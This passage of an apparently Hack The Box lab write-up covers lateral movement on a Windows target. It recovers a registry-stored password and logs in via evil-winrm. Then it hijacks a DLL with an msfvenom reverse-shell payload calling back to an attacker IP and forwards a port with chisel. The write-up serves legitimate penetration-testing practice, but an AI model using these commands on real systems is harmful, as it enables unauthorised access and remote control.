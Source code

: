 It seems our next goal is to move laterally to user devdoc to gain winrm remote access.
After largely enumerating the file system, we find this dll:
```markdwon
c:\inetpub\ExaminationPanel\ExaminationPanel\bin\ExaminationManagement.dll
```
This can be decompiled the dll with dnspy, where we find several calls to a registry key `software\meddigi`

![appsanity9](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/8543a22f-208d-49cd-a1ec-11fe4ef65bb4)

Next step is to query the register. You can find a password in key HKEY_LOCAL_MACHINE\software\meddigi. The password is `1g0tTh3R3m3dy!!`

![appsanity10](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b4918add-8efe-4b55-9c1d-d3413958529d)

If you spray the password with crackmapexec you find the credentials work for user `devdoc:1g0tTh3R3m3dy!!`. Use the user list we have previously found.
```markdown
evil-winrm -u devdoc -p '1g0tTh3R3m3dy!!' -i meddigi.htb
```
Turns out that under this user's context we can browse this folder.
```markdown
c:\program files\reportmanagement
```
Where we find the file `reportmanagement.exe`. Reversing the binary with ghidra, we find out it uses dll files placed in the folder.

![appsanity11](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/8b48711c-ba60-4fbf-a1e9-321520ec5b1e)

 So our next step is to place a malicious dll in that folder. This payload can be generatd with `msfvenom`
```markdown
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.xxx.xxx lport=9001 -f dll -a x64 --platform windows > externalupload.dll
```
Investigating how to launch the process, we discover the process is running locally on port 100.
```markdown
> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:100            0.0.0.0:0              LISTENING       4432
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       904
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       1196
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
```
To forward this port to our attacking machine, we use chisel.
```markdown
> ./chisel64 server -p 8000 --reverse
> .\chisel64.exe client 10.10.xxx.xxx:8000 R:100:127.0.0.1:100
```
![appsanity12](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/c159af4d-a929-479f-96a2-e7a985021e82)

In order to trigger the reverse shell, just execute the "upload" feature in the running port. The application calls the malicious dll and the shell is received.

![appsanity13](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/aa441c3b-413a-45f3-a7dc-f0ad841d5419)
